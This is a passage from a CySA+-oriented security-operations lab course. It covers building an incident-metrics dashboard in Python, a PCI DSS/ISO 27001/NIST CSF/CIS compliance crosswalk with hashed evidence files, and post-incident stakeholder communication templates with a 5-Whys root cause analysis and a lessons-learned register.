    for r in csv.DictReader(f):
        for k in ("opened","first_alert","response_start","remediated"):
            r[k]=dt.datetime.fromisoformat(r[k])
        rows.append(r)

rows.sort(key=lambda r:r["opened"])
ids   = [r["id"]                                          for r in rows]
mttd  = [(r["opened"]-r["first_alert"]).total_seconds()/60          for r in rows]
mtres = [(r["response_start"]-r["opened"]).total_seconds()/60       for r in rows]
mtrem = [(r["remediated"]-r["opened"]).total_seconds()/60           for r in rows]
vol   = [int(r["alert_count"])                                      for r in rows]

fig, ax = plt.subplots(2, 2, figsize=(12,8))
ax[0,0].bar(ids, mttd, color="#4477aa");  ax[0,0].set_title("MTTD (min)");          ax[0,0].axhline(30, color="r", ls="--")
ax[0,1].bar(ids, mtres, color="#66ccee"); ax[0,1].set_title("MTTR-respond (min)");   ax[0,1].axhline(60, color="r", ls="--")
ax[1,0].bar(ids, mtrem, color="#ee6677"); ax[1,0].set_title("MTTR-remediate (min)")
ax[1,1].bar(ids, vol,  color="#ccbb44");  ax[1,1].set_title("Alerts per incident")
for a in ax.flatten():
    a.tick_params(axis='x', rotation=45)
plt.tight_layout()
plt.savefig("dashboard.png", dpi=120)
print("wrote dashboard.png")
EOF
python3 dashboard.py
ls -lh dashboard.png
```

Open `dashboard.png` from Killercoda's file browser. Red dashed lines mark SLO targets — any bar over the line is an incident that breached SLO.

#### Step 5 — Identify trends (CySA+ "Trends")

```bash
python3 - <<'EOF'
import csv, datetime as dt
buckets={}
with open("incidents.csv") as f:
    for r in csv.DictReader(f):
        m=r["opened"][:7]            # YYYY-MM
        buckets.setdefault(m,[]).append(r)
for m in sorted(buckets):
    print(m, "incidents:", len(buckets[m]),
          "sev1:", sum(1 for r in buckets[m] if r["sev"]=="1"))
EOF
```

A spike in sev-1 month-over-month is the headline finding for the CISO slide.

#### Step 6 — Critical vulnerabilities & zero-day exposure

CySA+ 4.1 names "Critical vulnerabilities and zero-days" as a top metric. Add a second feed (from Lab 26 `findings.csv`):

| Metric | This month | Target | |--------|------------|--------| | Open P1 (CVSS ≥ 9.0) | 2 | 0 | | Zero-days with no vendor patch | 0 | 0 | | KEV-catalog hits open > 7 d | 1 | 0 |

Stack-rank with the table above on the same dashboard page.

#### Step 7 — SLO scorecard

CySA+ 4.1 / 4.2 "SLOs". A traffic-light board the executive can read in 5 seconds:

```bash
cat > slo.md <<'EOF'
| SLO | Target | Actual | Status |
|-----|--------|--------|--------|
| MTTD | < 30 min | 17 min | 🟢 |
| MTTR respond | < 60 min | 19 min | 🟢 |
| MTTR remediate (sev 1) | < 4 h | 3 h | 🟢 |
| P1 open > 7 d | 0 | 1 | 🔴 |
| Zero-days unpatched | 0 | 0 | 🟢 |
EOF
cat slo.md
```

#### What You Learned

- Compute MTTD, MTTR-respond, MTTR-remediate, and alert volume from raw incident data.
- Plot a single-page KPI dashboard with `matplotlib`.
- Identify monthly trends and SLO breaches.
- Combine vulnerability KPIs (P1, zero-day, KEV) with incident KPIs into an executive scorecard.

---

### Lab 29 — Compliance Reporting (PCI DSS / ISO 27001 / NIST CSF)

In this lab you will produce a compliance crosswalk that maps your lab evidence to **PCI DSS**, **ISO 27001 Annex A**, **NIST CSF**, and **CIS Controls v8** — the four frameworks CySA+ 2.1 / 4.1 expects you to recognise. This is the lab the auditor reads.

No shell required — produce a single Markdown deliverable.

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Why a crosswalk?

Most organisations are subject to multiple frameworks. A crosswalk avoids re-running the same control three times under three names. You demonstrate **one** technical control once and reference it from each framework.

#### Step 2 — Pull the framework primary sources (free)

- **PCI DSS v4.0** — https://www.pcisecuritystandards.org
- **ISO 27001:2022** (overview) — https://www.iso.org/isoiec-27001-information-security.html
- **NIST CSF 2.0** — https://www.nist.gov/cyberframework
- **CIS Controls v8** — https://www.cisecurity.org/controls

For internal training, the open OWASP, OSSTMM, and CIS Benchmarks are also useful (CySA+ 2.1 names them).

#### Step 3 — Build the crosswalk

Save as `crosswalk.md`:

```markdown
# Control crosswalk — Lab evidence ↔ Frameworks

| Control area | Lab evidence | PCI DSS v4 | ISO 27001:2022 | NIST CSF 2.0 | CIS v8 |
|---|---|---|---|---|---|
| Asset inventory | Lab 11 (Nmap inventory) | 9.5, 12.5 | A.5.9 | ID.AM-1/2 | 1.1 |
| Vuln scanning | Lab 12 (OpenVAS) | 11.3.1/11.3.2 | A.8.8 | ID.RA-1, PR.IP-12 | 7.1, 7.6 |
| Web app scan | Lab 13 (ZAP) | 6.4.1 | A.8.29 | PR.IP-7, DE.CM-8 | 16.11 |
| Patch mgmt | Lab 18 | 6.3.3 | A.8.8 | PR.IP-12 | 7.4 |
| Hardening | Lab 2, Lab 18 (Lynis) | 2.2 | A.8.9 | PR.IP-1 | 4 |
| Log ingest + time | Lab 1 | 10.4, 10.6 | A.8.15, A.8.17 | DE.AE-3, PR.PT-1 | 8 |
| SIEM correlation | Lab 7 | 10.4, 10.6 | A.8.16 | DE.CM-1/3 | 8.11 |
| Email security | Lab 8 | 5.4.1 | A.5.34 | PR.DS-2 | 9.7 |
| Threat intel | Lab 10 | 6.3.1 | A.5.7 | ID.RA-2, ID.RA-3 | 13.1 |
| Network segmentation | Lab 3 | 1.4, 1.5 | A.8.22 | PR.AC-5 | 12 |
| Containment / isolation | Lab 24 | 12.10.5 | A.5.26 | RS.MI-1 | 17.5 |
| Forensics / chain of custody | Lab 21 | 12.10.4 | A.5.28 | RS.AN-1/3 | 17 |
| IR plan / tabletop | Lab 25 | 12.10.1, 12.10.2 | A.5.24, A.5.25 | RS.RP-1, RC.RP-1 | 17.4 |
| Reporting & metrics | Lab 26, 27, 28 | 12.10.7 | A.5.27 | RS.CO-2/3 | 17.6 |
```

#### Step 4 — Generate compliance evidence files

For each control area, produce one **named** evidence file pointing at the underlying lab artefact:

| Evidence ID | Description | Source artefact | |---|---|---| | E-VM-2026Q2 | Quarterly vuln scan | `report.html` from Lab 26 | | E-IR-CASE001 | Incident report | `incident_report.md` from Lab 27 | | E-CoC-001 | Chain of custody | `chain_of_custody.md` from Lab 21 | | E-LOG-RET | 12-month log retention | rsyslog config + sample rotation log (Lab 1) | | E-HRD-LYN-05 | Hardening scan May 2026 | `/var/log/lynis.log` from Lab 18 | | E-CSF-SEG | Segmentation diagram | Lab 3 namespace diagram |

Hash every file:

```bash
sha256sum *.md *.csv *.html > MANIFEST.sha256
```

#### Step 5 — Compliance report skeleton

```markdown
# Compliance Report — Q2 2026

**Scope:** Cardholder data environment + customer PII systems
**Frameworks:** PCI DSS v4.0, ISO 27001:2022, NIST CSF 2.0, CIS v8
**Reporting period:** 2026-04-01 → 2026-06-30
**Author:** SOC Compliance Lead
**Approver:** CISO

## 1. Executive summary
All in-scope PCI controls were exercised in this period. Two ISO 27001 controls (A.5.30 ICT readiness, A.7.5 protecting against physical threats) have **observations** — see §5.

## 2. Control crosswalk
See `crosswalk.md`.

## 3. Evidence index
See `evidence-index.csv`.

## 4. Open audit findings
| Finding | Framework | Risk | Owner | Due |
|---------|-----------|------|-------|-----|
| Quarterly scan ran 4 days late in April | PCI 11.3.1 | Low | Platform | 2026-06-30 |
| BC/DR tabletop overdue | ISO A.5.30 | Med | CISO office | 2026-07-31 |

## 5. Risk acceptances
| Risk | Justification | Sign-off | Review date |
|------|---------------|----------|-------------|
| Legacy IIS 7.5 on legacy01 | Vendor MOU until 2026-12 | CISO 2026-05-13 | 2026-09 |

## 6. Stakeholder distribution
CISO, CFO (PCI), Legal (DPA), External auditor (read-only via secure share).
```

#### Step 6 — The auditor's checklist

Before submission, verify:

- [ ] Every control row has an Evidence ID and the evidence file exists.
- [ ] Every evidence file is hashed and the hash is in MANIFEST.sha256.
- [ ] Open findings have an owner and a due date.
- [ ] Risk acceptances have an executive signoff and a review date.
- [ ] Distribution list is restricted; share via the auditor's secure portal, not email.

#### Step 7 — Periodic regulatory scans (PCI DSS 11.3.2 — ASV)

PCI DSS specifically requires:

- **Internal** vulnerability scans: quarterly (Lab 12).
- **External** scans by an **Approved Scanning Vendor (ASV)**: quarterly (you cannot self-attest these).
- **Re-scans after significant change**: anytime.

Mark each scan on the calendar with a 7-day buffer for remediation before audit.

#### What You Learned

- Build a crosswalk that prevents duplicate control work across PCI/ISO/CSF/CIS.
- Index evidence per control with a unique ID and a hash.
- Author a quarterly compliance report skeleton.
- Recognise specific PCI DSS scanning obligations (internal vs ASV).

---

### Lab 30 — Stakeholder Communication and Lessons Learned

In this lab you will draft the four canonical post-incident communications — **executive**, **customer**, **regulator**, **public/media** — and close the incident with a structured **lessons learned** and **root cause analysis** that feeds the next preparation cycle. This maps to CySA+ 4.2 (Communications — Legal, Public relations, Customer comms, Media, Regulatory reporting, Law enforcement; Root cause analysis; Lessons learned; Stakeholder identification).

This lab is writing-heavy. Output: four templates plus a 5-Whys analysis.

**Environment:** Killercoda Ubuntu Playground

#### Step 1 — Identify every stakeholder for CASE-001

Carry the CASE-001 scenario from Lab 27. Tabulate stakeholders by influence and interest:

| Stakeholder | Role | Notify? | Channel | Owner | |---|---|---|---|---| | CEO | Decision authority | Yes (sev 1) | Phone + email | CISO | | CISO | IR sponsor | Yes | War room | IC | | CFO | Finance scope owner | Yes | Email | CISO | | Legal counsel | Privilege, hold, regulator | Yes (immediately) | Phone | IC | | Comms / PR | Public messaging | Yes (sev 1) | War room | CISO | | Affected customers | Subjects of breach | Yes (within 72 h) | Templated email | Comms | | Supervisory Authority (GDPR DPA) | Regulator | Yes (within 72 h) | Web form + letter | Legal | | Cyber-insurance carrier | Coverage trigger | Yes | Phone | Legal | | Law enforcement | Investigation | Optional | Phone referral | Legal | | Employees | Confidence + awareness | After containment | Townhall | CEO/CISO | | Media | Public statement | If asked | Holding statement | Comms |

CySA+ 4.2 names this list explicitly — never skip Legal and Regulatory.

#### Step 2 — Executive briefing template

```markdown
**To:** CEO, CFO, General Counsel
**From:** CISO
**Subject:** Sev-1 incident CASE-001 — interim update [TIME UTC]

**Bottom line up front:** ~1 GB of customer data exfiltrated from finance file share via phishing → credential theft. Host isolated. No further movement.

**Status:** Contained. Eradication in progress.
**Customer impact:** 87 records (names + IBAN). GDPR-notifiable.
**Press exposure:** Low so far; holding statement ready.
**Decisions needed from you:** (1) Authorise customer notification draft. (2) Approve law-enforcement referral.

Next update in 60 min.
```

Keep ≤ 1 screen. Bullets, not paragraphs. Decisions called out.

#### Step 3 — Customer notification template (GDPR-style)

```markdown
**Subject:** Important security notice about your data

Dear [Name],

On 13 May 2026, we discovered unauthorised access to a file containing your name and bank account (IBAN). We acted within minutes to stop the access and have no evidence the data has been used. Your password and online banking access are not affected.

**What we are doing**
- Engaged independent forensic specialists
- Notified the supervisory authority and law enforcement
- Strengthened the controls that allowed this incident

**What you should do**
- Watch your bank statements for any unusual debit and report to your bank
- Be alert to phishing emails or phone calls referencing this notice — we will never ask for your password
- Free guidance: [link to advice page]

If you have questions, contact our dedicated team at [email] / [phone] (24×7 for the next 30 days).

We are sorry this happened.

[Signed, Data Protection Officer]
```

Plain language. No jargon. Concrete actions. Apology.

#### Step 4 — Regulator notification (GDPR Art. 33 template)

```markdown
**Notification of personal data breach — Art. 33 GDPR**

| Field | Value |
|-------|-------|
| Controller | [Company name + DPA registration #] |
| Date/time of discovery | 2026-05-13 08:30 UTC |
| Nature of breach | Confidentiality breach (unauthorised exfiltration) |
| Categories of data | Name + IBAN |
| Number of records | ~87 |
| Likely consequences | Financial fraud risk; reputational |
| Measures taken | Host isolated; account disabled; MFA review; customer notification within 72 h |
| DPO contact | dpo@example.com / +XX phone |
```

Submit via the supervisory authority's web portal. Many EU DPAs have a 72-hour clock that starts at **awareness**, not at containment.

#### Step 5 — Public / media holding statement

```markdown
We recently identified a cybersecurity incident affecting a limited number of customer records in our finance system. We acted quickly to contain it, engaged independent specialists, and notified the relevant authorities. Affected customers are being contacted directly with specific advice. We continue to monitor and we are sorry for any concern this may cause.

For more information, please contact press@example.com.
```

Keep ≤ 100 words. No specifics that contradict customer notification or compromise the investigation.

#### Step 6 — Law enforcement referral checklist

- Make the call **after** Legal authorises and **only** through the pre-agreed contact (national cybercrime unit).
- Bring: incident report, IOC list, chain-of-custody form, evidence hashes.
- Do **not** alter or "clean up" evidence on the way.
- Agree what may be shared with the regulator vs the public during the open investigation.

#### Step 7 — Root cause analysis — 5 Whys

```markdown
1. **Why** did the attacker exfiltrate 1 GB? → They had valid credentials and unrestricted egress.
2. **Why** did they have valid credentials? → User entered creds into a phishing page.
3. **Why** did the user fall for the phish? → Email passed DMARC checks at the gateway.
4. **Why** did it pass DMARC? → Receiving policy was `p=none` (monitor only).
5. **Why** was the policy still `p=none`? → No owner; left over from initial rollout 18 months ago.

**Root cause:** Absent operational ownership of DMARC enforcement — not user error.
```

This phrasing matters: blaming the user generates fear, not improvement. Blaming the process generates a fix (Lab 25's action items).

#### Step 8 — Lessons learned register

```markdown
# Lessons Learned — CASE-001

## Keep doing
- Tabletop muscle memory; IC named in 5 min.
- Pre-built isolation runbook applied cleanly.

## Start doing
- Quarterly review of DMARC and DKIM enforcement levels.
- Maintain regulator notification template ready to fill in.

## Stop doing
- Treating phishing simulations as a checkbox training metric.

## Actions (with owners + due dates)
1. DMARC reject everywhere — Email Ops — 2026-05-31
2. FIDO2 rollout (Finance, Exec) — IdAM — 2026-07-01
3. Quarterly OOB comms test — SOC — recurring
4. Pre-draft regulator + customer templates — Legal + Comms — 2026-06-15
```

The output of this register is the input to next quarter's **Preparation** phase — closing the NIST loop one more time.

#### Step 9 — Stakeholder map → CySA+ 4.2 final crosswalk

| Step | CySA+ 4.2 bullet | |---|---| | 1 stakeholder map | Stakeholder identification and communication | | 2 executive template | Communications — internal / executive | | 3 customer template | Communications — Customer communication | | 4 regulator template | Communications — Regulatory reporting | | 5 media template | Communications — Public relations, Media | | 6 law enforcement | Communications — Law enforcement | | 7 5-Whys | Root cause analysis | | 8 lessons learned | Lessons learned |

#### What You Learned

- Identify every stakeholder for a sev-1 incident and pick the right channel for each.
- Draft executive, customer, regulator, and media communications.
- Run a 5-Whys RCA that targets process, not people.
- Close the incident with a structured Lessons Learned register that feeds back into the IR life cycle.

---
